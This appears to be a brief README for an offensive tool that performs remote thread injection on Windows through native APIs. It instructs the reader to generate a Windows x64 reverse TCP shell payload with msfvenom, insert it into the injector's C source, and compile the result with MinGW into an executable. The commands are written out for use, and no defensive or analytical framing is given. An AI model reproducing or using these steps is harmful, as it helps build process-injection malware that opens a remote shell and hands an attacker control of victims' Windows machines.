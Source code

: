 ## Remote Thread Injection Using Native APIs
create your shellcode and replace it in code:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

compile it in kali using **MinGW**:
```sh
x86_64-w64-mingw32-gcc main.c -o rti.exe
```
